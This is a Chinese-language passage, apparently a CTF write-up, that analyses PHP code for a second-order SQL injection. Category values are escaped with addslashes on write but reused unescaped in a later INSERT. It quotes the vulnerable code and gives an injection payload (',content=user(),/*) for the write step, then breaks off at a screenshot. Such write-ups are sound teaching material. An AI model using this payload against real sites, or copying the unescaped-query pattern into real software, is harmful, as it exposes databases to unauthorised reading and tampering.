 ```php
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

仔细分析一下，发现 `category`变量存在二次注入



```php
case 'write':
    $category = addslashes($_POST['category']);
	...

case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
```

在`write`写的时候，使用了`addslashes()`函数，会将单引号 `'`、双引号`"`、反斜杠 `\`等 加上一个反斜杠转义

然后`comment`中取出 `category`，但是没有进行转义，这就造成了二次注入漏洞

```sql
$sql = "select category from board where id='$bo_id'";
...
$category = mysql_fetch_array($result)['category'];
```

但是在`write`中使用 `addslashes()`后，**存入数据库时并不会将转义后添加的`\`存入数据库中**



于是我们先在`write`中写入：

```
',content=user(),/*
```

<img src="https://s2.loli.net/2023/05/14/LyisATHFCwo8mvj.png" alt="image-20230514132606523" style="zoom:50%;" />

